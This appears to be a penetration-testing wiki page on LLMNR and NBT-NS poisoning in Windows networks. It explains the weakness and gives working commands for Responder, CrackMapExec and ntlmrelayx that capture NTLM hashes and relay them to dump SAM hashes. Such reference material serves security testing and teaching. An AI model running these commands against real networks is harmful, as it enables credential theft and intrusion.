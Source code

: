 # Link-local Multicast Name Resolution
---

## Vulnerability

If a windows client cannot resolve a hostname using DNS, it will use the Link-Local Multicast Name Resolution (LLMNR) protocol to ask neighbouring computers. LLMNR can be used to resolve both IPv4 and IPv6 addresses.

If this fails, NetBios Name Service (NBT-NS) will be used. NBT-NS is a similar protocol to LLMNR that serves the same purpose. The main difference between the two is NBT-NS works over IPv4 only.

On these occasions when LLMNR or NBT-NS are used to resolve a request, any host on the network who knows the IP of the host being asked about can reply. Even if a host replies to one of these requests with incorrect information, it will still be regarded as legitimate.

Therefore it is possible to intercept NTLMv1/v2 hashes when a client tries to authenticate against a spoofed service. If NTLMv1 is enabled they can be reused as [Pass the Hash](/ad/passthehash/) attacks. However, if only NTLMv2 hashes are intercepted they cannot be used in the same way. Instead they need to be replayed quickly as they are only valid for a short period of time.

## Prerequisites

- Network access.

## Exploit

Start by listening the network with `responder` to spoof any NTLM hash that could transit. If you catch NTHashes, just reuse it with [Pass the Hash](/ad/passthehash/) method.

```bash
sudo responder -wrfbudPF -I eth0
```

Otherwise, if you obtain Net-NTLMv1 or Net-NTLMv2 hashes, you will have to relay them. To do so, you can use `impacket-ntlmrelayx`. By default, if no command is given it will try to dump SAM hashes. To do so, one must first identify hosts where smb signing is disabled.

```bash
cme smb $RANGE --gen-relay-list targets.txt
```

Once this is done, it will be used as hosts where the NTLMv2 hashes are replayed. But first, the configuration file of `responder` must be modified to disable SMB and HTTP:

```bash
sudo vim /etc/responder/Responder.conf

[Responder Core]

; Servers to start
SQL = On
SMB = Off #Should be On when not combined with ntlmrelayx
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off #Should be On when not combined with ntlmrelayx
HTTPS = On
DNS = On
LDAP = On
```

Once the configuration file is modified, the two following commands can be ran simultaneously.

```bash
sudo responder -rdwPF -I eth0
sudo impacket-ntlmrelayx -tf targets.txt --http-port 8000 -of output.txt
```